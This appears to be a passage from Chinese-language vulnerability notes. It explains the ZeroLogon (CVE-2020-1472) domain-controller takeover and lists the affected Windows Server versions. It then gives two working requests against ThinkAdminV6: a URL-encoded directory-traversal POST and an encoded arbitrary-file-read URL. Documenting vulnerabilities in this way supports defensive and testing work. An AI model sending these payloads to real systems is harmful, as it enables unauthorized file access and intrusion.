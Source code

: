 ### ZeroLogon接管域控权限漏洞 [CVE-2020-1472]

&emsp;&emsp;Netlogon远程协议是一个远程过程调用（RPC）接口，用于基于域的网络上的用户和计算机身份验证。Netlogon远程协议RPC接口还用于为备份域控制器（BDC）复制数据库。

&emsp;&emsp;Netlogon远程协议用于维护从域成员到域控制器（DC），域的DC之间以及跨域的DC之间的域关系。此RPC接口用于发现和管理这些关系。

&emsp;&emsp;该漏洞主要是由于在使用Netlogon安全通道与域控进行连接时，由于认证协议加密部分的缺陷，导致攻击者可以将域控管理员用户的密码置为空，从而进一步实现密码hash获取并最终获得管理员权限。成功的利用可以实现以管理员权限登录域控设备，并进一步控制整个域。

&emsp;&emsp;漏洞影响：

* Microsoft Windows Server 2008 R2 SP1

* Microsoft Windows Server 2012

* Microsoft Windows Server 2012 R2

* Microsoft Windows Server 2016

* Microsoft Windows Server 2019

* Microsoft Windows Server version 2004 (Server Core Installation)

* Microsoft Windows Server version 1903 (Server Core Installation)

* Microsoft Windows Server version 1909 (Server Core Installation) 

### ThinkAdminV6 任意文件操作

&emsp;&emsp;目录遍历，注意POST数据包rules参数值需要URL编码。

```
POST /admin.html?s=admin/api.Update/node

rules=%5B%22.%2F%22%5D
```

![](/img/HW-Vuln/HW26.png)

&emsp;&emsp;文件读取，后面那一串是UTF8字符串加密后的结果。计算方式在Update.php中的加密函数。

&emsp;&emsp;`/admin.html?s=admin/api.Update/get/encode/34392q302x2r1b37382p382x2r1b1a1a1b1a1a1b2r33322u2x2v1b2s2p382p2q2p372t0y342w34`

![](/img/HW-Vuln/HW27.png)
